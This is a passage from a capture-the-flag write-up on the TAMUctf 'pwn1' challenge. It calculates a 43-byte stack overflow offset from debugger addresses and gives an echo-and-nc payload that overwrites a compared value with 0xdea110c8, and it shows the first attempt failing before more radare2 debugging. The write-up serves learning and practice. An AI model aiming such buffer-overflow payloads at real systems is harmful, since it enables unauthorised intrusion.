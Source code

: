 The formula:


( value of ebp ) - ( 0x10 ) - ( address of first `a` in the stack )

In my case it is:

![s7](https://github.com/c00c00r00c00/writeups/raw/master/TAMUctf/pwn1/s7.png)


`0xffcafd28` - `0x10` - (`0xffcafce0` + `0xD`)

The result is 43:

```
$ perl -E 'say ( (0xfff60d58 - 0x10) - (0xfff60d10 + 0xd) )'

43
```

It means we need 43 random bytes, let's say `a`, and 4 bytes `0xdea110c8`.

To generate any byte you can use `echo` with `-e` switch, e.g.:

```
$ echo -e '\x61'
a
```

So, exploit should looks like:

```
echo -e 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\xa1\x10\xc8' | nc pwn.tamuctf.com 4321
```

But it doesn't work:

![s8](https://github.com/c00c00r00c00/writeups/raw/master/TAMUctf/pwn1/s8.png)


Hm, let's run it under radare2 again, set up breakpoint just after `gets` call, and input answer for the third questions `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcde`.
> I choosed `bcde` instead of `\xde\xa1\x10\xc8` because I don't know how to input such data by hand : )

Then let's check what we have to compare:

![s9](https://github.com/c00c00r00c00/writeups/raw/master/TAMUctf/pwn1/s9.png)
